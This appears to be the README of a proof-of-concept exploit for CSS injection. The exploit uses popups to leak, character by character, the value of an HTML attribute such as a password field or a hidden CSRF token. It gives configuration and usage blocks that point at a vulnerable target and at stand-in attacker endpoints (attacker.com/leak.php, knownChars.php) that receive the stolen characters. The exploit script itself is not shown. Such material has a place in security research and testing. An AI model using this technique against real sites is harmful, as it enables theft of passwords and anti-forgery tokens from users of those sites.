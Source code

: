 # PoC - CSS Injection : popups

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC to exploit a CSS injection using popups to retrieve the value of an attribute of an HTML element.

## Prerequisites

- There are some limitations when the value to be retrieved starts with a number. The target value must then be surrounded by single or double quotes and exploitation may not be possible if these characters are filtered by the application.
- Since on modern browsers only one popup can be opened at a time and only as a result of a user action (e.g. click), the alpahabet must be tested in a single request that may cause a `414 URI too long` error

## Configuration

Before using the PoC, adapt the following values:

```
/* ==== CONFIG ==== */
// Full URL of the vulnerable application
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL of the attacker's machine to retrieve the already known characters
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL of the attacker's machine to indicate a new identified character
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Name of the targeted HTML element
const HTML_ELEMENT_NAME = "input";

// Name of the targeted HTML attribute
const HTML_ATTRIBUTE_NAME = "name";

// NAME value of the targeted HTML attribute
const HTML_ATTRIBUTE_VALUE = "password";

// True if the targeted field is of type "hidden" (use of CSS combinators ~*)
const isHiddenTypeElement = false;

// When the characters "'" and """ are filtered by the application it's not possible to retrieve a value starting with a number
const isQuoteFiltered = true;
```

## Usage

### Retrieving a value from a password field

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Retrieving a value from a hidden field

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Demo

### Retrieving a value from a password field



### Retrieving a value from a hidden field

